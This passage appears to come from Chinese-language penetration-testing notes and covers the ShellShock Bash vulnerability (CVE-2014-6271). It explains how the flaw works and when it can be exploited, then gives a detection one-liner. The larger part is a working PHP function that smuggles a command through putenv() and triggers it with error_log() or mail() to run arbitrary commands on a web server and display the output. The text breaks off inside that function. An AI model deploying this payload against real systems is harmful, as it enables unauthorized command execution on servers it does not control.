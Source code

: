 ### 3. ShellShock (Bash 漏洞 CVE-2014-6271)

*   **概述 (Overview):** ShellShock 是 GNU Bash 4.3 及更早版本中的一个严重漏洞。Bash 在处理特定构造的环境变量（其值包含一个函数定义 `() { :;};` 后跟额外字符串）时，会错误地执行函数定义后面的额外字符串作为命令。
*   **工作原理 (Working Principle):**
    1.  Bash 在初始化时会扫描环境变量。如果一个环境变量的值看起来像一个函数定义（以 `() {` 开头），Bash 会将其导入为当前 Shell 环境中的一个函数。
    2.  漏洞在于，Bash 在解析函数定义时，没有在结束花括号 `}` 后停止处理，而是继续执行了该环境变量值中 `}` 之后的任何命令。
    3.  **利用:** 构造一个环境变量，其值为 `() { <任意内容>; }; <要执行的命令>`。当一个新 Bash 进程（子进程）启动并导入这个环境变量时，`<要执行的命令>` 就会被意外执行。
    4.  **在 PHP 中:** 使用 `putenv()` 设置恶意的环境变量，然后调用 `mail()` 或 `error_log()` 触发子进程（通常是 `/bin/sh`，如果它链接到易受攻击的 Bash）。
*   **利用条件 (Exploitation Conditions):**
    *   目标系统使用的 Bash 版本 <= 4.3 且存在 ShellShock 漏洞。
    *   `/bin/sh` 链接到易受攻击的 Bash (常见情况)。
    *   `putenv()` 函数可用。
    *   至少有一个能触发子进程的函数可用 (如 `mail()`, `error_log()`)。
    *   攻击者能够控制传递给子进程的环境变量。
*   **利用步骤 / 示例 Payload (Exploitation Steps / Example Payload):**
    1.  **检测 Payload:**
        ```bash
        env x='() { :;}; echo vulnerable' bash -c "echo test" 
        ```
        如果输出包含 "vulnerable"，则存在漏洞。
    2.  **PHP 触发 Payload:**
        ```php
        <?php
        function runcmd_shellshock($command) {
            $output_file = "/var/www/html/output_shellshock.txt"; // 确保可写
            $shell_command = $command . " > " . $output_file . " 2>&1";
          
            // 检查所需函数是否可用
            if (function_exists('putenv') && (function_exists('error_log') || function_exists('mail'))) {
                // 设置包含函数定义和要执行命令的环境变量
                putenv("PHP_SHELLSHOCK=() { :; }; " . $shell_command);  
                
                // 触发子进程 (error_log 通常更可靠)
                if (function_exists('error_log')) {
                    error_log("triggering shellshock", 1); // 参数不重要
                } else {
                    mail("a@a.com", "a", "a", "a");
                }

                // 读取结果
                sleep(1); 
                if (file_exists($output_file)) {
                    echo "Command output:<pre>" . htmlspecialchars(file_get_contents($output_file)) . "</pre>";
                    // unlink($output_file); 
                } else {
                     echo "Output file not found or command failed.";
                }
            } else {
                print("Required functions (putenv and mail/error_log) not available.");
            }
        }
